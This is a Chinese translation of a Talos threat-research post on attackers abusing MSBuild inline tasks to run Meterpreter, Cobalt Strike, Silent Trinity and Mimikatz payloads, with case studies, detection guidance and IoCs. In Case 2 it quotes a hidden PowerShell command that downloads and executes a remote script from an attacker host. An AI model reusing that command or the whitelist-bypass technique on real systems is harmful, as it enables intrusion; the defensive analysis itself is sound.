

# MSBuild在渗透测试中的应用


                                阅读量   
                                **770438**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者talosintelligence，文章来源：blog.talosintelligence.com
                                <br>原文地址：[https://blog.talosintelligence.com/2020/02/building-bypass-with-msbuild.html](https://blog.talosintelligence.com/2020/02/building-bypass-with-msbuild.html)

译文仅供参考，具体内容表达以及含义原文为准

[](./img/199458/t01db7940fc5f84b06e.jpg)


## 0x00 前言

在之前的[文章](https://blog.talosintelligence.com/2019/11/hunting-for-lolbins.html)中，我们讨论了操作系统默认功能以及其他合法可执行文件的应用场景，攻击者可以在后续攻击阶段（post-compromise）中，通过这种“living-off-the-land”方式来执行程序，我们称这种可执行文件为“LoLBins”。Cisco Talos一直在跟踪监测数据，尝试分析实际环境中LoLBins的使用状况。

这里我们主要关注以[MSBuild](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild?view%3Dvs-2019)作为后续攻击平台的行为，为此我们专门从各种来源收集信息，包括公开及私有数据仓库，也包括提交至[Cisco Threat Grid](https://www.cisco.com/c/en/us/products/security/threat-grid/index.html)平台的样本。

我们收集了恶意MSBuild工程配置文件，分析了相关结构，观察感染方式以及最终payload。此外，我们还讨论了这些行为背后的潜在攻击者。


## 0x01 MSBuild

MSBuild是Microsoft Build Engine的一部分，可以使用XML输入文件来编译应用程序。输入文件通常使用[Microsoft Visual Studio](https://visualstudio.microsoft.com/)来创建，然而编译应用程序不一定需要使用Visual Studio，因为系统中可能已经存在编译过程中需要使用的某些.NET平台及其他编译器。

攻击者可以利用MSBuild的这一功能，将恶意源码隐藏在MSBuild配置文件或者工程文件中。

攻击者可以使用MSBuild引擎，通过源码形式来使用恶意软件。[Casey Smith](https://twitter.com/subTee)在几年前发现并详细描述过这种技术，所提供的PoC模板也经常存在于我们收集到的样本中。

这种技术的优势包括：

1、可以用来绕过应用程序白名单机制，比如[Windows Applocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview)。

2、代码在内存中编译，因此磁盘上不会存在驻留文件，不容易引起防御方警觉。

3、攻击者可以采用各种方法来混淆payload，比如随机变量名，或者使用远程站点上的秘钥来加密payload，加大传统检测方法的处理难度。


## 0x02 样本概述

MSBuild输入配置文件有个特点：开发者可以在其中包括一个特殊的XML标签，指定[内联任务](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-inline-tasks?view%3Dvs-2019)，使MSBuild编译并在内存中加载源代码。

[](https://p2.ssl.qhimg.com/t0142518361024c94c1.png)

图1. MSBuild配置文件中内联任务的定义

根据任务属性，开发者可以指定项目在编译时会自动执行的新类、方法或者代码片段。

源代码可以指定为驱动器上的外部文件。将工程文件及恶意源代码解耦合，可以增加防御方对恶意MSBuild执行场景的检测难度。

在研究过程中，我们从各种数据源收集了100多个潜在的恶意MSBuild恶意文件，分析投递方法并研究最终payload，这些payload通常会采用位置无关代码（通常称为shellcode）形式来投递。

### <a class="reference-link" name="Metasploit"></a>Metasploit

我们收集到的样本大多数包含Metasploit Meterpreter stager shellcode变种，这是由msfvenom工具生成的、适用于嵌入C#变量的一种格式。这种shellcode通常经过混淆处理，比如使用zlib或GZip压缩字节数组，然后将数组转化为经过base64编码的可读文本。

[](https://p4.ssl.qhimg.com/t01707592790d2980c7.png)

图2. MSBuild配置文件中的Meterpreter stager shellcode样例

我们可以使用shellcode调试器（[scdbg](http://sandsprite.com/blogs/index.php?uid%3D7%26pid%3D152)）来快速分析shellcode，这可能是最方便的一款工具。Scdbg提供了调试shellcode的多个选项，该工具基于开源x86模拟库（libemu）开发，因此只能模拟Windows环境，无法正确分析所有shellcode。无论如何，该工具是分析大量shellcode样本的一个最佳切入点，可以生成日志文件，以便采用集群方式处理。

当然，为了分析shellcode，我们需要将其从适用于C#字节数组变量的形式转换为二进制形式。如果大家经常使用基于Unix的主机以及控制台/shell，那么首先想到的可能是默认工具`xxd`。`xxd`经常用来将二进制文件格式转储为人眼可读的十六进制格式。

`xxd`也提供了还原模式，我们可以使用命令行参数`-r`及`-p`，将C#数组字节转换为二进制文件。

```
xxd -r -p input_text_shellcode_file output_binary_shellcode_file
```

`xxd`支持多种常见的转储格式，但并不一定总是生成正确的输出数据。我们需要检查二进制字节，确保其与shellcode文本文件指定的字节相同。

[](https://p2.ssl.qhimg.com/t01347db16a9ed73095.png)

图3. Scdgb API 跟踪Metasploit stager shellcode

大家可以下载到编译好的scdbg，但我还是推荐大家从[源码](https://github.com/dzzie/VS_LIBEMU)进行编译，因为其中提供了新的API仿真功能。

### <a class="reference-link" name="Covenant"></a>Covenant

[Covenant](https://github.com/cobbr/Covenant)是相对较新的、基于C#的一个命令及控制（C2）框架，可以允许攻击者（或者红方队员）基于多种感染方式（包括MSBuild）创建payload。MSBuild加载器对应的框架代码（skeleton code）相对比较简单，采用二进制payload作为输入，使用zlib解压缩后，在MSBuild进程空间中加载。

输入payload必须为.NET程序集（assembly），由框架代码加载并执行。Covenant框架采用自定义的post-exploitation植入体（implant），即“Grunts”。Grunts提供了与C2服务器通信的基础框架，发送至受害者系统的任务采用经过混淆的C#程序集格式，由Grunts负责加载并执行。

[](https://p3.ssl.qhimg.com/t01ca6273f193b6ad15.png)

图4. Covenant中用来加载Grunt植入体的框架代码

### <a class="reference-link" name="NPS"></a>NPS

NPS是一个简单的可执行封装器，可以将`System.Management.Automation`及其他程序集载入可执行程序的进程空间中。该程序的目标是尝试规避`powershell.exe`的执行限制，运行自定义PowerShell代码。

[nps_payload](https://github.com/trustedsec/nps_payload)工具开发者利用了这种原理，帮助攻击者使用其他方法（包括MSBuild配置工具）来创建非PowerShell payload。该工具可以生成MSBuild工程文件，用户可以选择使用Meterpreter stager shellcode payload或者自定义的PowerShell代码payload。

[](https://p4.ssl.qhimg.com/t016c15483b63213961.jpg)

图5. MSBuild非PowerShell工作流程

### <a class="reference-link" name="Cobalt%20Strike"></a>Cobalt Strike

虽然Metasploit shellcode MSBuild payload是我们最常碰到的样本，我们还找到了其他样本，这些样本使用[Cobalt Strike](https://blog.talosintelligence.com/2018/07/multiple-cobalt-personality-disorder.html) beacon作为payload。beacon shellcode结构上与PE文件类似，但需要调用shellcode加载器手动加载到内存执行。加载器位于blob开头处，位置在`MZ`魔术字节之前。

[](https://p1.ssl.qhimg.com/t0144e4d795678f6f4b.png)

图6. Cobalt Strike payload初始执行流程

[](https://p1.ssl.qhimg.com/t01a19d41564b015778.png)

图7. Cobalt Strike反射式加载器

payload本身大小超过200KB，因此识别起来相对比较容易。下文中我们将介绍攻击者更为复杂的一次操作，其中攻击者使用托管在远程网站上的秘钥，通过AES256算法加密beacon payload，实现混淆目标。

### <a class="reference-link" name="Mimikatz"></a>Mimikatz

我们发现唯一比Cobalt Strike shellcode/beacon长的payload为包含2个Mimikatz payload的一个样本，该样本逻辑上更为复杂，可以将可执行文件载入内存，调用`CreateThread`最终运行该文件。PE加载器的源码可以在Github上找到，这里攻击者略作修改，使其能与MSBuild配合使用。

[](https://p5.ssl.qhimg.com/t01735f04e141780ee5.png)

图8. MSBuild Mimikatz加载器

加载器首先检查系统架构（32位还是64位），然后加载并运行匹配的Mimikatz可执行程序，可执行程序使用base64编码，存放在一个变量中。


## 0x03 案例分析

在过去6个月中，我们分析了提交至Cisco Threat Grid平台上的样本，下面我们将分析3个典型案例。我们将滥用MSBuild的样本标记为`MSBuild Process Builds with Project File (xml/csproj)`，大家也可以使用这个标识符来搜索尝试使用相同技术的其他样本。

[](https://p0.ssl.qhimg.com/t012e158c1f3079eda2.png)

图9. 滥用MSBuild的攻击标识符

### <a class="reference-link" name="%E6%A1%88%E4%BE%8B1%EF%BC%9ADropbox%E4%B8%8A%E5%8C%85%E5%90%ABMSBuild%20payload%E7%9A%84Word%E6%96%87%E6%A1%A3"></a>案例1：Dropbox上包含MSBuild payload的Word文档

使用MSBuild投递payload的第1个案例为Word文档，该文档会向用户展示常见的钓鱼信息，提示用户“启用内容”来执行文档中包含的VBA宏代码。

启用宏后，VBA代码会在用户的`Temp`目录两种创建2个文件。第1个文件为`expenses.xlsx`，该文档实际上是MSBuild的XML配置文件，其中包含待编译的恶意代码，可以运行payload。

根据VirusTotal提供的信息，该样本托管在公开访问的Dropbox目录中，文件名为`Candidate Resume - Morgan Stanley 202019.doc`，这表明此次攻击活动具有针对性，或者红方渗透测试团队尝试通过诱饵文档突破目标公司的防御。

[](https://p3.ssl.qhimg.com/t0120068334e92db319.png)

图10. 诱饵文件

在用户临时目录中创建的第2个文件名为`resume.doc`，这是一个无害的诱饵文档，为市场经理的一份简历。

[](https://p2.ssl.qhimg.com/t01061c22269ae869a3.png)

图11. 无害的诱饵文档

`Winword`会启动MSBuild，后者会运行C#编译器`csc.exe`及`cvtres.exe`。

[](https://p5.ssl.qhimg.com/t01566e7a1c6aaf64f1.png)

图12. 样本进程执行树

从上图中可知，MSBuild进程会启动IE浏览器（`iexplore.exe`），后者采用挂起模式启动，因此payload（这里为Cobalt Strike beacon）可以通过异步过程调用拷贝到该进程的进程空间中启动，这也是常见的一种进程注入技术。

蓝队应该定期检查进程之间的父子关系。在本案例中，`winword.exe`会启动`MSBuild.exe`进程，而`MSBuild.exe`会启动`iexplore.exe`，这是非常不正常的一种行为。

[](https://p2.ssl.qhimg.com/t0127735c249ffb3122.png)

图13. 基于MSBuild的进程注入源代码

### <a class="reference-link" name="%E6%A1%88%E4%BE%8B2%EF%BC%9AExcel%E6%96%87%E4%BB%B6"></a>案例2：Excel文件

第2个案例与上一个案例类似，这是一个Excel文档，看上去似乎包含机密的薪资信息，但实际上会提示用户启用文档编辑功能，以查看具体内容。

[](https://p5.ssl.qhimg.com/t0147581e4387bc5c1c.png)

图14. Excel样本

Excel文件中包含一个VBA宏代码，乍一看不是特别可疑，但实际上代码会调用另一个函数，后者最终会调用`Wscript.Shell`，文档的`Subject`属性中包含下一阶段加载器的URL。

[](https://p4.ssl.qhimg.com/t017b44c69d705fe8b2.png)

图15. VBA代码使用文档的`Subject`属性来启动下一阶段攻击

文档的`Subject`属性中包含一些代码，用来执行PowerShell，获取并调用下一阶段payload：

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -w hidden -Command iex(New-Object System.Net.WebClient).DownloadString('hxxp://apb[.]sh/helloworld[.]ps1')
```

`Helloworld.ps1`会从另一个URL（`hxxp://apb[.]sh/msbuild[.]xml`）下载并启动MSBuild配置文件，经过一番操作后，`Helloworld.ps1`会从`hxxp://apb[.]sh/per[.]txt`下载一个文件，将其保存为用户`\Start Menu\Programs\Startup\`目录中的`a.bat`文件，`a.bat`的作用是确保用户登出系统后payload依然能驻留。

样本下载的MSBuild配置文件似乎由Silent Trinity .NET攻击平台创建，将.NET程序集payload保存为经过zlib压缩的文件，然后使用base64编码器进行编码。Silent Trinity stager程序集在解码及加载后，所使用的命令控制URL指向`hxxp://35[.]157[.]14[.]111`，这是隶属于Amazon AWS的一个IP地址。

[](https://p1.ssl.qhimg.com/t010804e132998789ec.jpg)

图16. Silent Trinity样本的完整攻击阶段

Silent Trinity是相对较新的一个攻击框架，可以帮助攻击者或者红方队员在突破目标环境后开展各种攻击。原始的Silent Trinity植入体名为Naga，可以解释执行采用[Boolang](https://github.com/boo-lang/boo)语言发送的命令。植入体与C2服务器之间的通信流量虽然采用HTTP协议发送，但依然经过加密处理。

在本例中，攻击者使用的是老版本的Naga，该版本并没有使用Boolang，但会尝试加载IronPython，这是适用于.NET框架的Python实现。

[](https://p2.ssl.qhimg.com/t01e9fd346a3f361a45.png)

图17. Silent Trinity植入体加载IronPython引擎

与其他post-exploitation行为类似，我们很难确定该行为由恶意攻击者发起，还是由红方成员发起。

### <a class="reference-link" name="%E6%A1%88%E4%BE%8B3%EF%BC%9A%E5%8A%A0%E5%AF%86Cobalt%20Strike%20beacon%E7%9A%84URL"></a>案例3：加密Cobalt Strike beacon的URL

最后一个案例采用了不同的感染方式。攻击链路从某个web页面开始，该页面托管了知名服装厂商G-III的员工行为准则文件，该文件实际上是由VB Script编写的HTML应用，会创建MSBuild配置文件并运行MSBuild。

[](https://p1.ssl.qhimg.com/t013e0794cf14c96ae6.png)

图18. VB Script HTA文件创建配置文件并调用MSBuild

MSBuild配置文件中包含一个内联任务类，使用外部URL来获取用来解密嵌入的加密payload的秘钥，秘钥存放的URL为`hxxp://makeonlineform[.]com/forms/228929[.]txt`。嵌入的payload为Cobalt Strike PowerShell加载器，用来去混淆最终Cobalt Strike beacon，将其载入进程内存中。

[](https://p1.ssl.qhimg.com/t01eeaee621036e9337.png)

图19. 经过去混淆的Cobalt Strike PowerShell加载器

当Cobalt Strike beacon加载完成后，HTA应用就会将浏览器导航至G-III行为准则文件的实际URL，最终样本会在本地主机上删除生成的MSBuild配置文件。

如果观察Threat Grid生成的进程树，可以看到`MSBuild.exe`进程会启动PowerShell，这是潜在可疑的一种行为。这里`Mshta.exe`并不是`MSBuild.exe`的父进程，否则整个行为轨迹会更加可疑。

[](https://p0.ssl.qhimg.com/t010a07103c72bbbe96.png)

图20. Threat Grid中显式的HTA应用进程树


## 0x04 感知数据及追踪溯源

如果单以EDR解决方案收集到的MSBuild感知数据中的进程参数来研究，防御方很难判断当前环境中对`MSBuild.exe`的调用行为是否可疑。

这与使用编码脚本调用PowerShell的行为有所不同，此时防御方可以观察命令行参数来研究实际代码。

这里我们研究了使用MSBuild的目标系统在30天内的行为，以便判断是否存在可疑的MSBuild事件。

[](https://p3.ssl.qhimg.com/t01e911dd6b28f5709d.png)

图21. 2020年1月份中运行MSBuild的端点比例

我们也观察了工程文件名，这样我们可以使用默认工程文件名来捕捉攻击行为，但不能期望能够通过这种技术捕捉到所有攻击行为。另一个判断特征是MSBuild调用时涉及到的参数个数，如果只用到了1个参数，并且该参数为工程名，那么这种行为可能更加可疑。

除了参数个数之外，防御方应当检查MSBuild运行时的文件路径。可疑的MSBuild调用行为可能会涉及到`C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll`，这通常是恶意MSBuild配置文件中指定的编译程序集。

防御方还可以用到最后一种方法，根据MSBuild的父进程作为特征，将正常进程（比如Visual Studio开发环境及其他软件编译框架）与可疑的调用行为区分开来。在分析2020年1月份的感知数据时，我们总共发现了65个不同的父进程，实际环境中这个数量应该更少，也更容易管理。

在Cisco收集到的所有端点感知数据中，有2%的端点每天都会运行MSBuild，这种数据量对任何组织来说都有点庞大。然而，如果我们根据上述规则来分析MSBuild调用行为，则可以得到容易管理的行为数，大约占了5‰。

[](https://p2.ssl.qhimg.com/t01a16dd515da931173.png)

图22. 感知数据中具有可疑MSBuild调用行为的端点比例

在分析样本背后的攻击者时，如果我们没有其他信息，很难得出更多结论。当然，单凭MSBuild工程文件，我们还是可以得出关于源代码及payload的基本分析数据。但配合上行为结果后（比如Threat Grid收集到的数据），我们可以了解更多上下文，更清晰了解MSBuild的滥用情况。

根据我们的调查，大多数payload都会使用某种post-exploitation agent，比如Meterpreter、Cobalt Strike、Silent Trinity或者Covenant。根据这些数据，我们可以得出一个结论：攻击者比较感兴趣在目标环境中找到立足点，以便进一步发起攻击行为，或者攻击者为红方成员，在进行渗透测试，以便评估目标防御团队的检测水平及功能。


## 0x05 总结

MSBuild是软件工程师用来构建.NET软件工程的必备工具，然而MSBuild工程文件中可以包含代码，因此恶意攻击者可以滥用这一功能，也有可能绕过某些Windows安全机制。

我们的研究表明，商用恶意软件通常不会使用MSBuild。我们观察到的大多数案例都会使用post-exploitation agent变种作为最终payload，在渗透测试中，许多人会使用常用的post-exploitation agent，这可能会给防御方带来错误的安全感。如果防御方对Meterpreter习以为常，那么当实际网络中检测到Meterpreter，即使该行为由真正的恶意攻击者所发起，也可能会被防御方忽略。

防御方应当仔细监控进程执行中的命令行参数，检查MSBuild父进程是否为web浏览器或者微软Office可执行文件。这类行为高度可疑，表明防御机制已被破坏。当设置检测基准线后，可疑的MSBuild调用行为应当很容易识别，不会增加维护团队的平均工作量。

生产环境中没有软件开发者，因此防御方应当仔细检查`MSBuild.exe`的每次调用行为，确保调用行为合法安全。


## 0x06 IoC

SHA256：

```
334d4bcdbd645589b3cf37895c79b3b04047020540d7464268b3be4007ad7ab1
a4eebe193e726bb8cc2ffbdf345ffde09ab61d69a131aff6dc857b0d01dd3213
6c9140003e30137b0780d76da8c2e7856ddb4606d7083936598d5be63d4c4c0d
ee34c2fccc7e605487ff8bee2a404bc9fc17b66d4349ea3f93273ef9c5d20d94
aaf43ef0765a5380036c5b337cf21d641b5836ca87b98ad0e5fb4d569977e818
ef7cc405b55f8a86469e6ae32aa59f693e1d243f1207a07912cce299b66ade38
abb93130ad3bb829c59b720dd25c05daccbaeac1f1a8f2548457624acae5ba44
ce6c00e688f9fb4a0c7568546bfd29552a68675a0f18a3d0e11768cd6e3743fd
a661f4fa36fbe341e4ec0b762cd0043247e04120208d6902aad51ea9ae92519e
18663fccb742c594f30706078c5c1c27351c44df0c7481486aaa9869d7fa95f8
35dd34457a2d8c9f60c40217dac91bea0d38e2d0d9a44f59d73fb82197aaa792
```

URL：

```
hxxp://apb[.]sh/helloworld[.]ps1
hxxp://apb[.]sh/msbuild[.]xml
hxxp://apb[.]sh/per[.]txt
hxxp://makeonlineform[.]com/f/c3ad6a62-6a0e-4582-ba5e-9ea973c85540/
```
